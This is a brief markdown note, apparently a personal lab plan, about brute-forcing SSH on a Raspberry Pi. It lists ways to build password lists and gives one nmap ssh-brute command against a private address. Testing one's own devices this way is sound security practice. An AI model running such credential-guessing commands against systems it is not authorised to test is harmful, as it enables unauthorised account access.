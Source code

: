 # Brute Force Attack Raspberry Pi

## Ideas

- write a Python Script to generate passwords
- download a top XX list of the most common passwords
- use a tool to generate passwords

## Questions

- how long does it take to try 100/1000/10.000/1.000.000 passwords?
-

## User NMAP for brute force attack

```
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt --script-args unpwdb.timelimit=0 192.168.0.217
```
